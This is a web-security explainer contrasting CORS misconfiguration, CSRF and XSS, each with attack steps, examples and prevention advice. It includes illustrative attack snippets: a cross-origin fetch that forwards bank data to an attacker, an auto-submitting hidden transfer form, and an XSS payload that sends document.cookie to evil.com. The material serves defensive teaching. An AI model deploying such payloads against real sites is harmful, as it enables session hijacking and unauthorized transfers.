


# What Are the Three Different Threats: CORS, CSRF, XSS

Web applications face several common security threats around how browsers, servers, and scripts interact. Three of the most important to understand are **CORS** (Cross-Origin Resource Sharing) misconfigurations, **CSRF** (Cross-Site Request Forgery), and **XSS** (Cross-Site Scripting).

CORS is really a browser security *mechanism*, not an attack itself — but a misconfigured CORS policy opens the door to cross-origin data theft. CSRF and XSS are actual attack types. All three revolve around the same core problem: the browser trusting requests or scripts more than it should.

## Architecture Diagram



---

## 1. CORS (Cross-Origin Resource Sharing)

### What It Is

CORS is a browser-enforced mechanism that controls whether a web page from one origin (domain/protocol/port) is allowed to request resources from a different origin. By default, the **Same-Origin Policy (SOP)** blocks cross-origin reads. CORS is the set of HTTP headers (`Access-Control-Allow-Origin`, etc.) that relax that restriction in a controlled way.

A **misconfigured CORS policy** (e.g., `Access-Control-Allow-Origin: *` combined with credentials, or reflecting any `Origin` header back) becomes a vulnerability — it lets malicious sites read data they should never see.

### Who Is the Threat Actor

An attacker who controls a malicious website and wants to read authenticated data from a victim's session on another site (e.g., an internal API or banking dashboard).

### How It Works

1. Victim is logged into `bank.example.com` (has a session cookie).
2. Victim visits `evil.com` in another tab.
3. `evil.com`'s JavaScript makes a `fetch()` call to `bank.example.com/api/account`.
4. If `bank.example.com` responds with `Access-Control-Allow-Origin: https://evil.com` (or reflects any origin) **and** `Access-Control-Allow-Credentials: true`, the browser allows `evil.com`'s script to read the response — including private account data.

### Example

```javascript
// Running on https://evil.com
fetch('https://bank.example.com/api/account', {
  credentials: 'include'
})
  .then((res) => res.json())
  .then((data) => {
    // If CORS is misconfigured, attacker can read victim's private data
    sendToAttackerServer(data)
  })
```

Vulnerable server response:

```http
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true
```

### Impact

- Theft of sensitive data (account info, tokens, personal details) that should be private to the victim's origin.
- Combined with credentials, it can effectively bypass authentication boundaries between sites.

### How to Prevent

- Never use `Access-Control-Allow-Origin: *` together with `Access-Control-Allow-Credentials: true`.
- Maintain an explicit allow-list of trusted origins instead of reflecting the `Origin` header blindly.
- Only enable CORS for endpoints that genuinely need cross-origin access.
- Avoid sending credentials (cookies) cross-origin unless strictly required.

### What It Protects

Prevents malicious cross-origin JavaScript from **reading responses** from another origin's API/server without explicit permission.

### Where It Happens

Enforced entirely in the **browser**, based on response headers sent by the **server**. It applies to cross-origin `fetch`/`XMLHttpRequest`/API calls made from a webpage.

---

## 2. CSRF (Cross-Site Request Forgery)

### What It Is

CSRF tricks a victim's browser into submitting an unwanted, authenticated request to a trusted site where the victim is already logged in — without the victim's knowledge or consent.

### Who Is the Threat Actor

An attacker who controls a malicious page (or injects a malicious link/form) and wants to perform actions on behalf of the victim (transfer money, change email/password, delete data) using the victim's existing session.

### How It Works

1. Victim logs into `bank.example.com`; browser stores a session cookie.
2. Victim visits `evil.com`, which contains a hidden auto-submitting form pointing at `bank.example.com`.
3. Because cookies are sent automatically with same-site requests by the browser, the request looks legitimate to the server.
4. The bank server processes the action (e.g., transfer funds) as if the victim intentionally requested it.

### Example

```html
<!-- Hosted on evil.com -->
<form action="https://bank.example.com/transfer" method="POST" id="csrf-form">
  <input type="hidden" name="to" value="attacker-account" />
  <input type="hidden" name="amount" value="1000" />
</form>
<script>
  document.getElementById('csrf-form').submit()
</script>
```

If the bank endpoint only checks for a valid session cookie (and no anti-CSRF token), the transfer succeeds without the victim clicking anything.

### Impact

- Unauthorized state-changing actions performed as the victim (fund transfers, password/email changes, purchases, data deletion).
- Reputation and financial damage; loss of user trust.

### How to Prevent

- Use anti-CSRF tokens (synchronizer token pattern) that must be included in state-changing requests and validated server-side.
- Set cookies with `SameSite=Lax` or `SameSite=Strict` to stop cookies being sent on cross-site requests.
- Require re-authentication or additional confirmation for sensitive actions.
- Prefer custom request headers for APIs (e.g., `X-Requested-With`), since simple HTML forms cannot set them, and check for their presence server-side.

### What It Protects

Prevents attackers from **forging state-changing requests** using the victim's authenticated session without the victim's intent.

### Where It Happens

Executed from an **attacker-controlled site**, but relies on the victim's **browser automatically attaching cookies/session credentials** when calling the **trusted server**.

---

## 3. XSS (Cross-Site Scripting)

### What It Is

XSS allows an attacker to inject and execute malicious JavaScript in the context of a trusted website, running in the victim's browser as if it were part of that site.

Common types:

- **Stored XSS** – malicious script is saved on the server (e.g., in a comment) and served to other users.
- **Reflected XSS** – malicious script is included in a request (e.g., a URL parameter) and reflected back in the response.
- **DOM-based XSS** – the vulnerability exists purely in client-side JavaScript that unsafely handles data.

### Who Is the Threat Actor

An attacker who wants to run arbitrary JavaScript in victims' browsers to steal cookies/tokens, hijack sessions, deface pages, or perform actions as the victim.

### How It Works

1. Application takes user input (comment, search query, profile field) and renders it back into the page **without proper escaping/sanitization**.
2. Attacker submits input containing a `<script>` tag or event handler.
3. When other users view that page, the browser executes the injected script as if it were legitimate site code.
4. The script can read cookies, local storage, make requests, or modify the DOM — all within the trusted origin's context.

### Example

Stored XSS via a comment field:

```html
<!-- Attacker submits this as a "comment" -->
<script>
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>
```

If the server stores this raw and the page later renders it directly:

```jsx
// Vulnerable React code — dangerouslySetInnerHTML with unsanitized input
function Comment({ text }) {
  return <div dangerouslySetInnerHTML={{ __html: text }} />
}
```

Every visitor who views that comment now runs the attacker's script and leaks their session cookie.

### Impact

- Session hijacking (stealing cookies/tokens).
- Credential theft via fake login prompts injected into the page.
- Full account takeover, defacement, or malware distribution.

### How to Prevent

- Escape/encode all user-generated content before rendering (React does this by default for text nodes — avoid `dangerouslySetInnerHTML` with unsanitized input).
- Use a strict **Content Security Policy (CSP)** to restrict script sources and block inline scripts.
- Sanitize HTML input on both client and server using a trusted library (e.g., DOMPurify) if rich text must be allowed.
- Set cookies as `HttpOnly` so client-side scripts cannot read them, reducing the impact of a successful XSS.

### What It Protects

Prevents attacker-controlled **script execution** within the trusted site's origin, protecting users from having their session or data compromised by malicious code running as if it were the site's own.

### Where It Happens

Executed **inside the victim's browser**, within the **trusted site's own origin/DOM context** — the malicious script runs with the same privileges as the site's legitimate JavaScript.

---

## Key Takeaways

| Threat | Core Problem | Where It Runs | Primary Defense |
| --- | --- | --- | --- |
| **CORS** (misconfig) | Browser lets another origin read cross-origin responses | Browser, governed by server response headers | Strict origin allow-list; never combine `*` with credentials |
| **CSRF** | Browser auto-attaches credentials to forged cross-site requests | Attacker site triggers request; trusted server executes it | Anti-CSRF tokens, `SameSite` cookies |
| **XSS** | Untrusted input executes as script in the trusted origin | Victim's browser, inside the trusted site's context | Output encoding, CSP, sanitization, `HttpOnly` cookies |

- **CORS** is about controlling *who can read* a response across origins — it's a policy, and misconfiguration is the vulnerability.
- **CSRF** is about *forging a request* using the victim's existing trust (cookies) without needing to read the response.
- **XSS** is about *injecting code* that runs with full trust inside the victim's browser session on the legitimate site.
- All three exploit the gap between "the browser trusts this" and "the user actually intended this."
- Defense in depth (CSP + SameSite cookies + CSRF tokens + strict CORS + output encoding) is needed since each threat targets a different layer of trust.

## Where Do They Happen



- **CORS** decisions happen at the **browser–server boundary**, enforced by the browser reading response headers from the server.
- **CSRF** happens when the **browser sends a request** (with cookies attached) from an attacker's page to the trusted server — the forgery originates off-site but lands on the trusted server.
- **XSS** happens **inside the trusted site's own page**, once malicious script is embedded and executed within that origin's DOM.
